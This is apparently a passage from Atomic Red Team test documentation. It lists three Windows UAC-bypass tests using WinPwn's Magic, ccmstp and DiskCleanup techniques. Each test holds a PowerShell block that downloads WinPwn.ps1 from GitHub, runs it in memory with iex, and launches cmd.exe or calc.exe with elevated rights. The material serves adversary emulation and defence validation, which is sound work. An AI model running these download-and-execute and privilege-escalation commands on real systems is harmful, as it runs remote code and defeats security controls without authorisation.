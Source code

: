 <br/>
<br/>

## Atomic Test #18 - WinPwn - UAC Magic

UAC bypass using Magic technique via function of WinPwn

**Supported Platforms:** Windows

**auto_generated_guid:** 964d8bf8-37bc-4fd3-ba36-ad13761ebbcc

#### Attack Commands: Run with `powershell`!

```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
UACBypass -noninteractive -command "C:\windows\system32\cmd.exe" -technique magic
```

<br/>
<br/>

## Atomic Test #19 - WinPwn - UAC Bypass ccmstp technique

UAC bypass using ccmstp technique via function of WinPwn

**Supported Platforms:** Windows

**auto_generated_guid:** f3c145f9-3c8d-422c-bd99-296a17a8f567

#### Attack Commands: Run with `powershell`!

```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
UACBypass -noninteractive -command "C:\windows\system32\calc.exe" -technique ccmstp
```

<br/>
<br/>

## Atomic Test #20 - WinPwn - UAC Bypass DiskCleanup technique

UAC bypass using DiskCleanup technique via function of WinPwn

**Supported Platforms:** Windows

**auto_generated_guid:** 1ed67900-66cd-4b09-b546-2a0ef4431a0c

#### Attack Commands: Run with `powershell`!

```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
UACBypass -noninteractive -command "C:\windows\system32\cmd.exe" -technique DiskCleanup
```
